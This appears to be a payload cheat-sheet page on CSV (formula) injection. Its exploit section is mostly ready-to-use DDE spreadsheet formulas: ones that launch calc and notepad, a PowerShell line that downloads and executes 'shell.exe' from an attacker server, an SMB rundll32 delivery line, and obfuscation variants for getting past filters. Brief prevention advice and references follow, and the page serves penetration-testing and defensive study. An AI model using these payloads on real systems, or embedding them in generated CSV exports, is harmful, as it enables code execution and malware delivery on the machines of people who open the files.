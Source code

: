 # CSV Injection

Many web applications allow the user to download content such as templates for invoices or user settings to a CSV file. Many users choose to open the CSV file in either Excel, Libre Office or Open Office. When a web application does not properly validate the contents of the CSV file, it could lead to contents of a cell or many cells being executed.

## Exploit

Basic exploit with Dynamic Data Exchange

```powershell
# pop a calc
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+1)*cmd|' /C calc'!A0
=2+5+cmd|' /C calc'!A0

# pop a notepad
=cmd|' /C notepad'!'A1'

# powershell download and execute
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0

# msf smb delivery with rundll32
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1

# Prefix obfuscation and command chaining
=AAAA+BBBB-CCCC&"Hello"/12345&cmd|'/c calc.exe'!A
=cmd|'/c calc.exe'!A*cmd|'/c calc.exe'!A
+thespanishinquisition(cmd|'/c calc.exe'!A
=         cmd|'/c calc.exe'!A

# Using rundll32 instead of cmd
=rundll32|'URL.dll,OpenURL calc.exe'!A
=rundll321234567890abcdefghijklmnopqrstuvwxyz|'URL.dll,OpenURL calc.exe'!A

# Using null characters to bypass dictionary filters. Since they are not spaces, they are ignored when executed.
=    C    m D                    |        '/        c       c  al  c      .  e                  x       e  '   !   A

```

Technical Details of the above payload:

- `cmd` is the name the server can respond to whenever a client is trying to access the server
- `/C` calc is the file name which in our case is the calc(i.e the calc.exe)
- `!A0` is the item name that specifies unit of data that a server can respond when the client is requesting the data

Any formula can be started with

```powershell
=
+
–
@
```

## Prevention and Best Practices

- **Input Validation:** Validate and sanitize user input before allowing it to be included in CSV files. Proper input validation can prevent malicious data from being injected into the files.
- **Output Encoding:** Implement output encoding to ensure that special characters are properly escaped before being included in CSV files. This prevents the execution of malicious commands.
- **Content Disposition Headers:** Set Content-Disposition headers with a safe filename when serving CSV files. This helps in preventing browsers from interpreting the CSV files as executable content.
  ```php
  header('Content-Disposition: attachment; filename="safe-file.csv"');
  ```
- **Whitelisting:** Maintain a whitelist of allowed characters and patterns for CSV files. Block any input that does not adhere to these rules.
- **Use Libraries:** Instead of manually generating CSV files, consider using established libraries specific to your programming language/framework. These libraries often handle special characters and encoding issues more effectively.


## References

* [OWASP - CSV Excel Macro Injection](https://owasp.org/www-community/attacks/CSV_Injection)
* [Google Bug Hunter University - CSV Excel formula injection](https://bughunters.google.com/learn/invalid-reports/google-products/4965108570390528/csv-formula-injection)
* [CSV INJECTION: BASIC TO EXPLOIT!!!! - 30/11/2017 - Akansha Kesharwani](https://payatu.com/csv-injection-basic-to-exploit/)
* [From CSV to Meterpreter - 5th November 2015 - Adam Chester](https://blog.xpnsec.com/from-csv-to-meterpreter/)
* [The Absurdly Underestimated Dangers of CSV Injection - 7 October, 2017 - George Mauer](http://georgemauer.net/2017/10/07/csv-injection.html)
* [Three New DDE Obfuscation Methods](https://blog.reversinglabs.com/blog/cvs-dde-exploits-and-obfuscation)
* [Your Excel Sheets Are Not Safe! Here's How to Beat CSV Injection](https://www.we45.com/post/your-excel-sheets-are-not-safe-heres-how-to-beat-csv-injection)


